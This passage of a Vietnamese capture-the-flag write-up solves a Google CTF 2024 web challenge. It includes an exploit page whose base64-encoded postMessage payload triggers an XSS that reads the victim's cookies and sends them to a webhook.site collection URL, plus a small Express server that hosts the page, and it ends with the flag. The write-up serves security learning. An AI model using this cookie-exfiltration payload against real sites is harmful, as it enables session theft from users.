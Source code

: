 3. Tạo một website đơn giản nhúng iframe dính lỗi
- exploit.html:
  ```html
  <!DOCTYPE html>
  <html>
      <body>
          <script>
              function load() {
                  const iframe = document.getElementById("cc");
                  const pl = '{"method":"initialize", "host":"data://sappy-web.2024.ctfcompetition.com/;base64,eyJodG1sIjoiPGltZyBzcmM9eCBvbmVycm9yPVwiY29uc3QgdyA9IHdpbmRvdy5vcGVuKCdodHRwczovL3NhcHB5LXdlYi4yMDI0LmN0ZmNvbXBldGl0aW9uLmNvbS9zYXAuaHRtbCcpO3NldFRpbWVvdXQoKCkgPT4ge2NvbnN0IGNvb2tlZSA9IHcuZG9jdW1lbnQuY29va2llO2ZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS84NDlmYmY5My1iNThmLTQ5ZWUtOGU1Yi1hMGI5MzA3OTQxM2IvP2E9JyArIGJ0b2EoY29va2VlKSk7fSwgMTAwMCk7XCI+In0=#>"}'
                  iframe.contentWindow.postMessage(pl, '*');
                  iframe.contentWindow.postMessage('{"method":"render", "page":"lmao"}', '*');    
              }
          </script>
          <iframe id="cc" src="https://sappy-web.2024.ctfcompetition.com/sap.html" onload="load()"></iframe>
      </body>
  </html>
  ```

- server.js:
  ```javascript
  const express = require("express")
  const fs = require("fs")
  
  app = express()
  
  app.get("/", async (req, res) => {
      fs.readFile("exploit.html", function (err, data) {
          res.writeHead(200, { "Content-Type": "text/html; charset=utf-8", "Access-Control-Allow-Origin" : "*" });
          res.write(data);
          return res.end();
      });
  });
  
  app.listen(1337, () => {
      console.log(`Listening on localhost:${1337}`);
  });
  ```
- Lưu ý nếu không set header *Access-Control-Allow-Origin* thành "*" thì ta không thể đọc được response khi thực hiện fetch() đến attacker server do bị SOP chặn lại

  ![image](https://github.com/NoSpaceAvailable/GoogleCTF2024/assets/143888307/f73cf2c8-b7fd-4f34-a37f-bdc40f65b7b6)

# Flag
- CTF{parsing_urls_is_always_super_tricky}
